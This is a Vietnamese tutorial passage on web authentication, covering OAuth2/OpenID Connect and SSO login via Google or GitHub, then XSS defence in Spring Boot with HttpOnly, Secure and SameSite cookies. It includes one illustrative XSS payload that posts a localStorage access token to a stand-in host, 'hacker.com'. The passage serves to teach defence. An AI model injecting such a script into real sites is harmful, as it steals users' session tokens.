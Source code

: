 Khi dùng xác thực bên thứ ba như Google, GitHub hoặc SSO doanh nghiệp (qua SAML/OIDC), luồng xác thực sẽ theo chuẩn OAuth2/OpenID Connect. Ví dụ, với Google/GitHub OAuth2: ứng dụng sẽ chuyển hướng (redirect) người dùng đến trang login của Google/GitHub; người dùng đăng nhập ở đó và cấp quyền cho app; Google trả về authorization code, app dùng code này đổi lấy access token và/hoặc ID token (là JWT chứa thông tin người dùng) từ Google. Sau đó, bạn có thể sử dụng ID token của Google trực tiếp làm token của mình, hoặc tạo mới một session/token riêng cho ứng dụng. Spring Boot hỗ trợ sẵn việc này – ví dụ chỉ cần cấu hình spring.security.oauth2.client.provider.google.client-id và secret, Spring Security sẽ xử lý luồng OAuth2 mặc định.

Với SSO (Single Sign-On) chung, người dùng chỉ cần đăng nhập một lần với nhà cung cấp danh tính (IdP) rồi được truy cập nhiều ứng dụng mà không phải đăng nhập lại. Okta mô tả SSO là một hệ thống trên nền id cung cấp chung (federated identity), nơi một token chứng minh danh tính của người dùng được lưu ở máy chủ SSO (CAS) và được kiểm tra mỗi khi vào ứng dụng khác. Ví dụ, khi dùng OpenID Connect, Google hoặc Facebook có thể trở thành IdP; sau khi login, Google phát ra ID token (JWT) chứa thông tin (email, tên, hình ảnh…) mà ứng dụng có thể dùng để tạo session/token riêng. Phương pháp này cho phép người dùng “login với Google/Github” thay vì mật khẩu của ứng dụng.

Tóm lại, dùng Google/Github/SSO cũng dẫn đến hai lựa chọn cuối: hoặc xây model session (lưu tại server) hoặc token (lưu tại client) cho ứng dụng của bạn. Về cơ bản cơ chế vẫn giống trên, chỉ khác là bước đầu thay vì kiểm tra mật khẩu tự quản thì bạn ủy quyền việc đó cho nhà cung cấp bên ngoài. Nhờ vậy, bạn có thể tận dụng bảo mật của Google/GitHub và giảm gánh nặng tự quản lý mật khẩu.

## 🛡️ Bảo Mật: Ngăn Chặn Các Mối Đe Dọa

### XSS (Cross-Site Scripting)

XSS là lỗ hổng cho phép kẻ tấn công chèn mã JavaScript độc hại vào trang web, từ đó đánh cắp token hoặc cookie. Để phòng chống XSS:
- Luôn sanitize và escape dữ liệu đầu vào từ người dùng.
- Sử dụng Content Security Policy (CSP) để hạn chế nguồn tải script.
- Lưu token trong HttpOnly cookie để JavaScript không thể truy cập.

**Ví dụ tấn công**: Hacker inject JavaScript vào website để đánh cắp token từ localStorage.

```js
// Hacker inject script này vào comment, form...
<script>
  fetch('https://hacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('accessToken')
  });
</script>
```

**Phòng chống**:

**Option 1**: Lưu token trong HttpOnly Cookie (không thể access bằng JS)

```java
@Bean
public CookieSerializer cookieSerializer() {
    DefaultCookieSerializer serializer = new DefaultCookieSerializer();
    serializer.setUseHttpOnlyCookie(true); // ✅ Chống XSS
    serializer.setUseSecureCookie(true);    // Chỉ HTTPS
    serializer.setSameSite("Strict");        // Chống CSRF
    return serializer;
}
```
